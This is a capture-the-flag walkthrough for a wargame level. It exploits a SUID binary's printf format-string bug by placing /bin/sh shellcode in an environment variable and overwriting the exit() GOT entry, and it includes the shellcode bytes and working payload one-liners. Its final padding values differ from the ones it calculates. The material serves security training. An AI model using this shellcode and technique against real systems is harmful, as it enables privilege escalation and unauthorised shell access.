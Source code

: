 # Level 5

## Vulnerability



## Context

We find a binary with owner ```level05``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

When run ...!!!!!
```
level05@OverRide:~$ ./level05
hello
hello
```

## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. 

However we do see a call to ```printf()```, which is vulnerable to string format exploits. 

We also see a call to ```exit()```.

### Build exploit

Unfortunately, we see the stack is non-executable. 

We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will:
- use a shellcode stored in an environmental variable 
- to run a string format attack to overwrite ```exit()``` 

We will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious shellcode / environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. 

Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide... so let's make the address of our shellcode ```0xffffd822 + 16 bytes -> 0xffffd832```.

We are going to insert this malicious code using a ```printf()``` format string attack. 

Unfortunately, ```0xffffd832``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957106 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). 

Note: reverse order for little endian! 
```
0xffffd832
0xd832 -> 55346
0xffff -> 65535
```

Next, find the address of ```exit()```. The GOT address of ```exit()``` is ```0x080497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Finally, let's check our buffer position for the ```printf()``` string format exploit.

We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

Looks good... Let's sum it all up! 

Our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```

- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55346 - 8 bytes (of characters already written)``` -> ```55338```
      - ```65535 - 55338 bytes (of characters already written)``` -> ```10197```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"
```

Let's try it. 
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10197d%11$hn")'; cat) | ./level05
```

Why we can't just do this (with a %u modifier) is beyond me!
```(python -c 'print "\xe0\x97\x04\x08" + "%4294957094u" + "%10$n"'; cat) | ./level05```

```(python -c 'print "\xe0\x97\x04\x08" + "%4294957098u" + "%10$n"'; cat) | ./level05```


```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55397d%10$hn" + "%10130d%11$hn")'; cat) | ./level05
```


## Recreate Exploited Binary


